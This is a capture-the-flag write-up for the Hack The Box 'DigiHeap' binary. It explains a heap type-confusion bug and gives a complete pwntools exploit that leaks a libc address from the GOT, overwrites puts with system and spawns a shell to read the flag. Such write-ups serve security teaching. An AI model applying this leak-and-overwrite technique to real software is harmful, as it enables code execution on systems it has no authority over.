

# DigiHeap

In this task we have a digiheap elf binary. It provides us to choose one of the four options: we can add, edit, del or show a monster. Each monster is a structure of size 24 that contains four integer fields and a pointer to a description string, if it was set, or NULL, if it wasn’t. Pointers to the monster structures are saved into an array at 0x404100 by the chosen index.

In addition, there’s an array at 0x4040C0. It contains sizes of monster descriptions. This array is needed when we choose to show a monster. If the description size of the chosen monster is not equal to zero, then the program will write a description using the pointer in structure.

We also have a type confusion vulnerability. If we add a monster with a description of the same size as a monster structure, then delete it and add a new monster, a new monster will be allocated at the same place as a description of the first monster. Because the free function changes only the first 16 bytes, we can set the last 8 bytes of the description as a part of the monster structure.

Additionally, if we add one monster with a description of the same size as a monster structure, and then add a new monster with the same index without description, the new monster will have a non-zero size of the description, because a value in a size array will not be zeroed when adding.

All described above gives an opportunity to control the pointer to a description string of the monster structure. Therefore, we can read an arbitrary memory or write to it.

Our goal is to read an address of puts function in the .got.plt section, calculate libc base address and rewrite pointer to puts to the offset of the system function inside libc.

That’s our steps:

1.	Add first monster with description.
2.	Add second monster with description that contains a pointer to puts function in .got.plt in the last 8 bytes.
3.	Delete the second monster.
4.	Add the first monster again without description. Now it have a pointer to puts function in .got.plt as a pointer to the description.
5.	Show a description to leak a pointer to puts and calculate libc base address.
6.	Edit a description to set the puts pointer to the offset of system function inside libc.
7.	Add new monster with description that contains ‘/bin/bash’ string.
8.	Choose show option for new monster to call system with a description as argument.
9.	Execute ‘cat flag.txt’ in the shell.
P.S. all description sizes we choose 24 - equal to monster structure size
Script, that doing all this steps:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./digiheap --host docker.hackthebox.eu --port 30813
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./digiheap')

if exe.bits == 32:
    lindbg = "/root/linux_server"
else:
    lindbg = "/root/linux_server64"

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'docker.hackthebox.eu'
port = int(args.PORT or 30813)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.EDB:
        return process(['edb', '--run', exe.path] + argv, *a, **kw)
    elif args.QIRA:
        return process(['qira', exe.path] + argv, *a, **kw)
    elif args.IDA:
        return process([lindbg], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

libc = ELF('./libc.so.6')

io = start()

# add monster 0

io.recvuntil('>> ')
io.sendline('1')

io.recvuntil('index: ')
io.sendline('0')

for j in range(4):
    io.recvuntil('value: ')
    io.sendline('1337')

io.recvuntil('description? (Y/N): ')
io.sendline('Y')

io.recvuntil('Size: ')
io.sendline('24')

io.recvuntil('Add a description: ')
io.sendline(cyclic(24))

# add monster 1

io.recvuntil('>> ')
io.sendline('1')

io.recvuntil('index: ')
io.sendline('1')

for j in range(4):
    io.recvuntil('value: ')
    io.sendline('1337')

io.recvuntil('description? (Y/N): ')
io.sendline('Y')

io.recvuntil('Size: ')
io.sendline('24')

io.recvuntil('Add a description: ')
io.sendline(b'1' * 16 + p64(0x404020))

# del monster 1

io.recvuntil('>> ')
io.sendline('3')

io.recvuntil('index: ')
io.sendline('1')

# add monster 0

for i in range(2):
    io.recvuntil('>> ')
    io.sendline('1')

    io.recvuntil('index: ')
    io.sendline('0')

    for j in range(4):
        io.recvuntil('value: ')
        io.sendline('1337')

    io.recvuntil('description? (Y/N): ')
    io.sendline('N')

# check description

io.recvuntil('>> ')
io.sendline('4')

io.recvuntil('index: ')
io.sendline('0')

io.recvuntil('Description: ')
leak = u64(io.recvline()[:-1].ljust(8, b'\x00'))

print('puts leak:', hex(leak))

libc.address = leak - 0x083cc0

print('libc base:', hex(libc.address))

# edit decription

io.recvuntil('>> ')
io.sendline('2')

io.recvuntil('index: ')
io.sendline('0')

io.recvuntil('description: ')

io.sendline(p64(libc.sym['system']))

# add monster

io.recvuntil('>> ')
io.sendline('1')

io.recvuntil('index: ')
io.sendline('1')

for j in range(4):
    io.recvuntil('value: ')
    io.sendline('1337')

io.recvuntil('description? (Y/N): ')
io.sendline('Y')

io.recvuntil('Size: ')
io.sendline('24')

io.recvuntil('Add a description: ')
io.sendline('/bin/bash')

# EXPLOIT!

io.recvuntil('>> ')
io.sendline('4')

io.recvuntil('index: ')
io.sendline('1')

sleep(0.5)

io.sendline('cat flag.txt')

io.interactive()
```

Screenshot of the script execution:

